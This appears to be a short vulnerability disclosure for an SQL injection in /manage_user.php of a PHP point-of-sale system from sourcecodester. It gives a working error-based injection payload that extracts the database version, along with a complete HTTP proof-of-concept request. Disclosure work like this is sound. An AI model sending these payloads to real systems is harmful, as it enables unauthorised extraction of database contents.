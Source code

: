 # SQLi-5

# Vulnerability Description

The best-pos-management-system-php in PHP Free Source Code (It is an open source project from [www.sourcecodester.com](www.sourcecodester.com)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: hjhctzz
2. vendors: [https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html](https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html)
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /manage_user.php

[+] Payload:

```http
id=1%20OR%20(SELECT%204743%20FROM(SELECT%20COUNT(*),CONCAT('~',version(),'~',FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)
```

POC：

```http
GET http://10.0.10.39/kruxton/manage_user.php?id=1%20OR%20(SELECT%204743%20FROM(SELECT%20COUNT(*),CONCAT('~',version(),'~',FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a) HTTP/1.1
Host: 10.0.10.39
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hide-dotfile=no; PHPSESSID=98umeubo6lpdpkv3bgsekd9udu
Connection: close


```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​![image-20240313104308-52wr49k](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/ea05ecb7-f286-4c69-8f6d-50d207d58e2f)

